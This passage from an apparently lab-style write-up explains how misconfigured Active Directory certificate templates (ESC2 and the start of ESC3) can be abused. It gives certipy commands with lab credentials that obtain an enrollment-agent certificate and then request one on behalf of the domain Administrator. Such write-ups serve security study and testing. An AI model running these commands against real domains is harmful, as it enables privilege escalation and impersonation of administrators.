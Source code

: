 Here is what we need to pay attention to so we can spot vulnerable templates ourselves:
![](/screenshots/20230724231433.png?raw=true)

### Template Abuse

If the requester can specify a SAN, a certificate template vulnerable to ESC2 can be abused just like ESC1.

Since the certificate can be used for any purpose, it can be abused using same technique as with ESC3, which we'll cover below.

`certipy req -u s.jackson@certipied.local -p 'Pr3-0wn3d@#.' -ca Certipied-CA -template Vuln-ESC2 -dc-ip 192.168.91.181`

![](/screenshots/20230725005026.png?raw=true)

We can then use the Certificate Request Agent certificate (`-pfx`) to request a certificate on behalf of another user by specifying the `-on-behalf-of` flag. The `-on-behalf-of` parameter value must be in the form of `domain\user`, and not the FQDN of the domain, i.e. `certipied` rather than `certipied.local`.

`certipy req -u s.jackson@certipied.local -p 'Pr3-0wn3d@#.' -ca Certipied-CA  -template User -on-behalf-of 'certipied\Administrator' -pfx s.jackson.pfx -dc-ip 192.168.91.181`

![](/screenshots/20230725005237.png?raw=true)

We can then use the new certificate to authenticate as the administrator.

## Misconfigured Enrollment Agent Templates - ESC3

This scenario is similar to the first two, however, it concerns a different EKU, namely Certificate Request Agent.
It's also known as Enrollment Agent in Microsoft documentation and allows a principal to enroll for a certificate on behalf of another user.
